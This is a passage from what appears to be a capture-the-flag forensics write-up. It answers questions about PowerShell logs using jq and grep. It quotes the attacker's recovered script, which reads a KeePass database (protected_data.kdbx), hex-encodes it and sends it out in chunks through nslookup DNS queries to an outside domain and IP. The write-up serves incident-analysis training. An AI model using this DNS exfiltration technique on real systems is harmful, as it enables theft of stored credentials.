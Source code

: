 
> ### What is the software that uses the file in Q3?

When we previously used **grep** to look for **sq3.exe** we noted a response above. Looking at that result we can see what software we are looking for.

**Answer: Microsoft Sticky Notes**

---

> ### What is the name of the exfiltrated file?

So we kinda accidentally found this earlier.

We can use as our base:

```bash
cat powershell.json | jq '.ScriptBlockText'
```

then we can `| grep ‘C:\\’` or `| grep Users` or `| grep Documents` and we will find the same file.

**\= protected\_data.kdbx**

---

> ### What type of file uses the .kdbx file extension?

A wee Google for **.kdbx file** will do it.

**Answer: keepass**

---

> ### What is the encoding used during the exfiltration attempt of the sensitive file?

For this I wanted to look at our previous results using:

```bash
cat powershell.json | jq '.ScriptBlockText'
```

I scrolled up a bit and found where we found our previous result:

```bash
$file='C:\\Users\\j.westcott\\Documents\\protected_data.kdbx'; $destination = \"167.71.211.113\"; $bytes = [System.IO.File]::ReadAllBytes($file);;pwd
```

Looking just above that we find:

```bash
$split = $hex -split '(\\S{50})'; ForEach ($line in $split) { nslookup -q=A \"$line.bpakcaging.xyz\" $destination;} echo \"Done\";;pwd
```

and

```bash
$hex = ($bytes|ForEach-Object ToString X2) -join '';;pwd
```

We can see what appears to be some kind of splitting action into **hex**.
